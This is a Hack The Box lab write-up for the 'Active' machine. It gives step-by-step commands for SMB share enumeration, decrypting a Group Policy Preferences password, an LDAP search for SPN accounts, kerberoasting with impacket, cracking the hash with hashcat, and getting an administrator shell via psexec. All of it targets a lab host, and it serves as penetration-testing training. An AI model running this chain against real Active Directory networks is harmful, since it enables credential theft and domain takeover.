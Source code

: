 # Active

<details>
<details>
  <summary><strong>Summary</strong></summary>
Scan the machine's open ports and find an smb server. Locate the smbshares using smbmap and access the available share using smbclient. Find a Groups.xml file and discover a gpp-encrypted password on it. Crack it and get access to some of the other SMB shares and get the first flag. Look for other users in the Active Directory instance using impacket-GetADUsers. Check if any of those users were created using an SPN using ldap search. Since the admin user is created using an SPN, kerberoast him using impacket-GetUserSPNs. Crack the resulting hash and use psexec to get a shell with the new password.
</details>
<br>

<summary2><strong>What I Learned</strong></summary2>

<body>

1. Learned that AD machines in HTB are quite different from the course material found in OFFSEC.
2. There are many ways to enumerate SMB shares and a lot of tools to do it.
3. Enumeration with SMB shares is actually way easier than the manual way I used to do it
4. If a user is kerberoastable, use impacket GetUserSPNs

</body>
</details>

### Scan the machine for open ports

![alt text](images/image.png)

### Scan the open ports

![alt text](images/image-1.png)

Find smbclient on port 445  
List the available shares
![alt text](images/image-2.png)

Use smbclient to access the Replication share
`smbclient \\\\<IP>\\<SHARE>`  
Find a Groups.xml file that contains a username and password
![alt text](images/image-3.png)

Decrypt the password found in the groups.xml file

```
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98g…
SCV_TGS : GPPstillStandingStrong2k18
```

Use SMBMap to check for the shares svc_tgs has access to  
`smbmap -u svc_tgs -p 'GPPstillStandingStrong2k18' -H 10.129.231.79`
![alt text](images/image-5.png)

Use the decrypted password to get access to the USERS smb share  
`smbclient -U 'svc_tgs%<PASSWORD>' \\\\10.129.231.79\\USERS`
![alt text](images/image-4.png)

Get all the users in the AD Instance
![alt text](images/image-6.png)

The administrator user is configured using a Service Principal Name on this Active Directory Instance

- `-x` -> simple authentication instead of SSL | `-H` server | `-D` user | `-w` password | `-b "dc=active,dc=htb"` -> sets the search base to the quoted string, which is the root of the AD domain | `-s sub` -> subtree search
- The subtree filter -> `(&(objectCategory=person)(objectClass=user)` -> targets users accounts
- `(!(useraccountcontrol:1.2.840.113556.1.4.803:=2))` -> Exclude disabled accounts
- `(serviceprincipalname=*/*))` -> searches for users that have any Service Principal Name
- `serviceprincipalname` -> requests only the servicePrincipalName attribute
- `grep -B 1 servicePrincipalName` -> Shows the service principal name along with the line before it (distinguished name)

![what goes here](images/image-7.png)

Get the SPN using impacket's GetUserSPNs tool

```
# Check
impacket-GetUserSPNs active.htb/svc_tgs -dc-ip 10.129.231.79
# Get the SPN
impacket-GetUserSPNs active.htb/svc_tgs -dc-ip 10.129.231.79 --request
```

![alt text](images/image-8.png)

### Take the hash and crack it locally

![alt text](images/image-9.png)

```
hashcat -m 13100 spn.hash /rockyou.txt
```

Get access using psexec

```
impacket-psexec administrator@10.129.231.79
```
